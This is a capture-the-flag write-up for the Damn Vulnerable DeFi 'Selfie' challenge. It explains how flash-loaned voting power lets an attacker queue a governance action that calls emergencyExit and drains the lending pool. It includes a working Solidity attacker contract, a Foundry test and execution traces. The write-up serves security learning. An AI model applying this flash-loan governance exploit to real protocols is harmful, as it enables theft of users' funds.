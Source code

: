 # Damn Vulnerable DeFi - Selfie - Solution Report

## Problem Analysis

### Contract Summary

The challenge involves three main contracts:

1. `DamnValuableVotes`: An ERC20 token with voting capabilities.
2. `SimpleGovernance`: A governance contract that allows actions to be queued and executed based on voting power.
3. `SelfiePool`: A flash loan provider for the DamnValuableVotes token.

Key functions:

- `SelfiePool.flashLoan()`: Provides flash loans of DVT tokens.
- `SimpleGovernance.queueAction()`: Queues a governance action if the caller has enough voting power.
- `SimpleGovernance.executeAction()`: Executes a queued action after a delay.
- `SelfiePool.emergencyExit()`: Allows the governance to withdraw all funds from the pool.

### Initial Setup

- Total DVT token supply: 2,000,000 tokens
- Tokens in SelfiePool: 1,500,000 tokens
- Player's initial balance: 0 tokens

### Success Criteria

To solve the challenge, the player must:

1. Drain all 1,500,000 DVT tokens from the SelfiePool.
2. Transfer the drained tokens to the designated recovery address.

The challenge is considered solved when:

- The SelfiePool's token balance is 0.
- The recovery address's token balance is 1,500,000 DVT tokens.

## Vulnerability

The main vulnerability in this challenge stems from the interaction between the flash loan functionality and the governance system. Specifically:

1. Lack of snapshot mechanism in voting power:
   In the `SimpleGovernance` contract, the `_hasEnoughVotes` function checks the current voting power:

   ```solidity
   function _hasEnoughVotes(address who) private view returns (bool) {
       uint256 balance = _votingToken.getVotes(who);
       uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
       return balance > halfTotalSupply;
   }
   ```

   This check is performed at the time of queueing an action, without considering whether the voting power is temporary (e.g., from a flash loan).

2. Unrestricted emergency exit:
   The `SelfiePool` contract has an `emergencyExit` function that can drain all funds:

   ```solidity
   function emergencyExit(address receiver) external onlyGovernance {
       uint256 amount = token.balanceOf(address(this));
       token.transfer(receiver, amount);

       emit EmergencyExit(receiver, amount);
   }
   ```

   This function is only restricted by the `onlyGovernance` modifier, making it a prime target for exploitation if governance control can be momentarily seized.

3. No delay in voting power activation:
   The `DamnValuableVotes` token allows immediate use of voting power after receiving tokens, without any delay or lock period.

## Attack Pattern

The attack to drain the SelfiePool can be executed in the following steps:

1. Flash Loan and Governance Action Queueing:

   - Deploy an attacker contract that implements the `IERC3156FlashBorrower` interface.
   - Call the attacker contract to initiate a flash loan from SelfiePool for the maximum amount of DVT tokens (1,500,000).
   - In the `onFlashLoan` callback:
     a. Delegate the voting power of the borrowed tokens to the attacker contract.
     b. Queue a governance action in SimpleGovernance to call `emergencyExit` on SelfiePool.
     c. Approve SelfiePool to take back the borrowed tokens.
   - Return the flash loan.

   Consequence: A malicious governance action is queued with temporarily borrowed voting power.

2. Waiting Period:

   - Wait for the governance delay period (2 days) to pass.

   Consequence: The queued action becomes eligible for execution.

3. Action Execution:

   - After the delay period, call the attacker contract to execute the queued governance action.
   - This will trigger the `emergencyExit` function on SelfiePool, transferring all DVT tokens to the designated recovery address.

   Consequence: All 1,500,000 DVT tokens are drained from SelfiePool and sent to the recovery address.

## Proof of Concept (PoC)

The following code demonstrates the implementation of the attack pattern:

1. Attacker Contract Implementation:

```solidity
contract SelfieAttacker is IERC3156FlashBorrower {
    SelfiePool private immutable pool;
    SimpleGovernance private immutable governance;
    DamnValuableVotes private immutable token;
    address private immutable recovery;
    uint256 public actionId;

    constructor(SelfiePool _pool, SimpleGovernance _governance, DamnValuableVotes _token, address _recovery) {
        pool = _pool;
        governance = _governance;
        token = _token;
        recovery = _recovery;
    }

    function initiateAttack() external {
        uint256 borrowAmount = pool.maxFlashLoan(address(token));
        pool.flashLoan(this, address(token), borrowAmount, "");
    }

    function onFlashLoan(address initiator, address tokenAddress, uint256 amount, uint256 fee, bytes calldata data)
        external
        returns (bytes32)
    {
        require(tokenAddress == address(token), "Unexpected token");

        // Delegate voting power to ourselves
        token.delegate(address(this));

        // Queue the governance action to drain the pool directly to the recovery address
        actionId = governance.queueAction(address(pool), 0, abi.encodeWithSignature("emergencyExit(address)", recovery));

        // Approve the pool to take back the flash loan
        token.approve(address(pool), amount);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function executeDrainAction() external {
        governance.executeAction(actionId);
    }
}
```

2. Attack Execution in Test Contract:

```solidity
function test_selfie() public checkSolvedByPlayer {
    // Deploy the attacker contract
    SelfieAttacker attacker = new SelfieAttacker(pool, governance, token, recovery);

    // Step 1: Perform the flash loan attack and queue the action
    attacker.initiateAttack();

    // Step 2: Fast forward time to bypass the governance delay
    vm.warp(block.timestamp + governance.getActionDelay());

    // Step 3: Execute the governance action to drain the pool directly to the recovery address
    attacker.executeDrainAction();
}
```

3. Foundry Traces

```
    ├─ [563] DamnValuableVotes::balanceOf(SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Pool still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [563] DamnValuableVotes::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    ├─ [0] VM::assertEq(1500000000000000000000000 [1.5e24], 1500000000000000000000000 [1.5e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]
```
